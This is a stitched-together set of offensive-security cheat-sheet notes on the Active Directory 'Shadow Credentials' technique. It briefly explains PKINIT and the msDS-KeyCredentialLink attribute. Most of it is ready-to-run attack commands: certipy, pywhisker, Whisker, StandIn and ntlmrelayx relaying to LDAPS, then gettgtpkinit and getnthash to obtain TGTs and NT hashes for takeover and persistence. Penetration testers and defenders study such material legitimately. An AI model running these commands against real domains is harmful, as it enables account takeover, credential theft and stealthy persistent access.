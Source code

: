

##
#
https://pentest.party/notes/ad/shadow-credentials
#
https://github.com/topotam/PetitPotam
#
https://github.com/ShutdownRepo/pywhisker
#
##

Shadow Credentials 
06.03.2024 · dadevel

It is possible to add Key Credentials to the msDS-KeyCredentialLink attribute of the target user or computer object and then perform Kerberos authentication as that account using PKINIT. source

Shadow Credentials require Windows Server 2016 domain functional level or higher.

Abuse GenericWrite on a user object (jdoeadm) to add a key credential and retrieve the certificate. Now you can authenticate as the user via PKINIT. If you got computer instead, you can impersonate a domain admin on that computer trough Delegate2Thyself / S4U2self.

certipy
Add a new key credential, authenticate via PKINIT, Unpac the Hash and remove the key credential in one go.

certipy shadow auto -u jdoe@corp.local -p 'passw0rd' -account jdoeadm
pywhisker
Clean up.

pywhisker
The device UUID is printed by the command above.

pywhisker -d corp.local -u jdoe -k --no-pass -t jdoeadm --action remove --device-id $uuid
certipy
NTLM relay to LDAP and open an interactive LDAP shell (source). When relaying a computer account the shadow target should be the SAM account name, e.g. ws01$.

impacket
Requires PR 1402.

impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --interactive --target ldaps://dc01.corp.local
$ nc -v 127.0.0.1 11000
# set_shadow_creds jdoeadm
# clear_shadow_creds jdoeadm
# exit
NTLM relay to LDAP. Requires manual cleanup.

impacket
impacket-ntlmrelayx --no-dump --no-da --no-acl --no-validate-privs --no-smb-server --no-wcf-server --no-raw-server --http-port 8080 --shadow-credentials --shadow-target jdoeadm --target ldaps://dc01.corp.local
Untested tools:

Whisker, written in C#

##
##

Shadow Credentials
Theory
The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). 
That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, 
making them vulnerable to ASREProast). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates).
The asymmetrical way of pre-authenticating is called PKINIT.

The client has a public-private key pair, and encrypts the pre-authentication data with their private key, and the KDC decrypts it with the client’s public key. The KDC also has a public-private key pair, allowing for the exchange of a session key. (specterops.io)

Active Directory user and computer objects have an attribute called msDS-KeyCredentialLink where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

There are multiple scenarios where an attacker can have control over an account that has the ability to edit the msDS-KeyCredentialLink (a.k.a. "kcl") attribute of other objects (e.g. member of a special group, has powerful ACEs, etc.). This allows attackers to create a key pair, append to raw public key in the attribute, and obtain persistent and stealthy access to the target object (can be a user or a computer).

Practice
In order to exploit that technique, the attacker needs to:

be in a domain that supports PKINIT and containing at least one Domain Controller running Windows Server 2016 or above.

be in a domain where the Domain Controller(s) has its own key pair (for the session key exchange) (e.g. happens when AD CS is enabled or when a certificate authority (CA) is in place).

have control over an account that can edit the target object's msDs-KeyCredentialLink attribute.

The msDS-KeyCredentialLink feature was introduced with Windows Server 2016. However, this is not to be confused with PKINIT which was already present in Windows 2000. The msDS-KeyCredentialLink feature allows to link an X509 certificate to a domain object, that's all.

If those per-requisites are met, an attacker can

create an RSA key pair

create an X509 certificate configured with the public key

create a KeyCredential structure featuring the raw public key and add it to the msDs-KeyCredentialLink attribute

authenticate using PKINIT and the certificate and private key

UNIX-like
Windows
From UNIX-like systems, the msDs-KeyCredentialLink attribute of a user or computer target can be manipulated with the pyWhisker tool.

Copy
pywhisker.py -d "FQDN_DOMAIN" -u "USER" -p "PASSWORD" --target "TARGET_SAMNAME" --action "list"
The "add" action from pywhisker is featured in ntlmrelayx.

Copy
ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'
When the public key has been set in the msDs-KeyCredentialLink of the target, the certificate generated can be used with Pass-the-Certificate to obtain a TGT and further access.

Nota bene

User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. 
This means the following scenario could work: trigger an NTLM authentication from DC01, 
relay it to DC02, make pywhisker edit DC01's attribute to create a Kerberos PKINIT pre-authentication backdoor on it, 
and have persistent access to DC01 with PKINIT and pass-the-cache.

Computer objects can only edit their own msDS-KeyCredentialLink attribute if KeyCredential is not set already.

Resources
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
posts.specterops.io

##
##


Key Credentials Abuse
"...if you can write to the msDS-KeyCredentialLink property of a user, you can retrieve the NT hash of that user." (Elad Shamir, ref)

That makes GenericWrite on a user effectively equal to DCSync right on that user.

Remember that WriteDacl != GenericWrite, so in order to modify msDS-KeyCredentialLink, obtain necessary privileges first. For example, using StandIn:

Copy
Cmd > Rubeus.exe createnetonly /program:cmd.exe /show /ticket:tgt.kirbi
Cmd > StandIn.exe --domain megacorp.local --object "samaccountname=snovvcrash" --grant "MEGACORP\jdoe" --type GenericAll
DSInternals
https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADKeyCredential.md

Whisker
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

https://github.com/eladshamir/Whisker

List all the values of the the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe list /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local
Add a new value to the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe add /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /path:C:\Temp\cert.pfx /password:Passw0rd!
Remove a value from the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe remove /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local /deviceid:00ff00ff-00ff-00ff-00ff-00ff00ff00ff
Clear all the values of the the msDS-KeyCredentialLink attribute of a target object:

Copy
Cmd > .\Whisker.exe clear /target:ws01$ /domain:megacorp.local /dc:DC1.megacorp.local 
pywhisker
https://github.com/ShutdownRepo/pywhisker

https://podalirius.net/en/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/

```
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action add -f sqltest_cert
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action list
$ python3 pywhisker.py -d megacorp.local -u svc_mssql -p 'Passw0rd!' --target sqltest --action clear
$ python3 gettgtpkinit.py megacorp.local/sqltest -cert-pfx ~/tools/pywhisker/sqltest_cert.pfx -pfx-pass 3Dc3Er0rst2e9J1yRtjh sqltest.ccache
$ KRB5CCNAME=sqltest.ccache python3 getnthash.py megacorp.local/sqltest -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
